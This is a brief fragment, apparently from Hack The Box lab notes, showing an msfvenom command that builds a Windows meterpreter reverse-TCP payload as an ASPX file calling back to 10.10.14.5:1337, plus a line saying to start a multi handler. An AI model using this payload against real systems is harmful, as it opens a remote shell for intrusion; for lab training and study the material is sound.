 ```rb
shakir0x00@htb[/htb]$ msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.5 LPORT=1337 -f aspx > reverse_shell.aspx
```

Now use the multi handler and set the Port and the Host and run the handler.

